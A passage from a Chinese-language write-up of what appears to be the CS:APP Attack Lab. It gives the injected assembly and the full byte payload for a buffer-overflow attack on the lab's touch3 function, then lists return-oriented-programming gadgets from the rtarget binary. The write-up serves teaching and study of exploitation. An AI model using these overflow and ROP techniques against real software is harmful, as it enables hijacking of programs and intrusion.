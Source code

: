 
3. 具体思路：

   将字符串 "59b997fa" 的字节流填到存放 `return address` 的位置的后面（即 `buf + 0x28 + 0x8`，地址为 `0x5561dca8`，实验证明：如果将字符串放在 `buf` 头到存放 `return addr` 的位置中间的这一段会被覆盖）；在 `buf + 0x28` 处放置 `buf` 的地址：`0x5561dc78`（注意）；在 `buf + 0` 处放置如下的 gadget：

   ```assembly
   assm.o:     file format elf64-x86-64
   
   
   Disassembly of section .text:
   
   0000000000000000 <.text>:
      0:	68 a8 dc 61 55       	pushq  $0x5561dca8
      5:	5f                   	pop    %rdi
      6:	68 fa 18 40 00       	pushq  $0x4018fa	; touch3 函数的起始地址
      b:	c3                   	retq   
   ```

   最终的 payload 为：`68 a8 dc 61 55 5f 68 fa 18 40 00 c3 ` + ` 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00` + ` 78 dc 61 55 00 00 00 00` + `35 39 62 39 39 37 66 61`

   

4. 结果

   <img src=".\assets\20210407_3.png" style="zoom:67%;" /> 

   

5. 收获

   shell 输入/输出重定向：https://www.runoob.com/linux/linux-shell-io-redirections.html



### Part II: Return-Oriented Programming

##### Level 1

大意就是说：你可以使用程序 *rtarget* 中的函数 `start_farm` 和 `end_farm` 之间的 gadget 来构造攻击。

```assembly
; 用到的所有 gadget

1. 0x4019a2:	48 89 c7 c3			movq %rax, %rdi; retq;					
2. 0x401a06:	48 89 e0 c3			movq %rsp, %rax; retq;
3. 0x4019ab:	58 90 c3		 	popq %rax;	nop; retq;
4. 0x4019dd:	89 c2 90 c3			movl %eax, %edx; nop; retq;
5. 0x401a69:	89 d1 08 db c3		movl %edx, %ecx; orb %bl, %bl; retq;
6. 0x401a13:	89 ce 90 90 c3		movl %ecx, %esi; nop; nop; retq;
7. 0x00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	retq   
```
